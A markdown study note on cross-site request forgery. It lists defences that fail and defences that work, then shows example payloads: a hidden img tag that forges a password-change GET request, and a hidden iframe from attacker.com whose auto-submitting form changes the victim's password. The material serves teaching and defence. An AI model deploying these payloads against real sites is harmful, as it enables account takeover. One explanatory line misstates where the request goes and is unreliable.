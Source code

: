 - Using a secret cookie
- Only accepting POST requests
- Multi-Step Transactions
- URL Rewriting
- Https (though this is a prerquisite to effective prevention measures)

### Prevention measures that do work: :white_check_mark:

- Make your forms send an authentication token - ensure that the info coming back is legit and not forged
- Make sure authentication tokens have an expiry time that isn't too far into the future
- Synchronise cookies with anti CSRF _synchronisation tokens_
- Prevent browser from sending cookies to the web application
- Use same-site cookies, which prevent third party cookies

![cookies](https://media3.giphy.com/media/xT0xeMA62E1XIlup68/giphy.gif?cid=3640f6095c0fe4972f3971775971a1f0)

---


### GET request example

Your details can be stored in an `<img>` tag and hidden with css. Found on a malicious web page, message, email etc:
```html
<img src="http://example.com/changePassword.php/?newPassword=attackerPassword" style="visibility:hidden;">
```
In this case, the browser will send a GET request containing a cookie to the attacker url in the img tag


### POST request example

A post request may make use of an `<iframe>` element that will serve up another webpage through the document the victim is viewing. This iframe will contain a script that will submit the form that it contains. Like the image, the iframe may also be hidden from view.

**iframe**
```html
<iframe src="http://attacker.com/csrfAttack" style="width:0;height:0;border:0;border:none;"></iframe>
```

**iframe contents**
```html
<body onload="document.getElementById('csrf').submit()">
    <form id="csrf" action="http://example.com/changePassword.php" method="POST">
        <input name="newPassword" value="attackerPassword" />
    </form>
</body>
```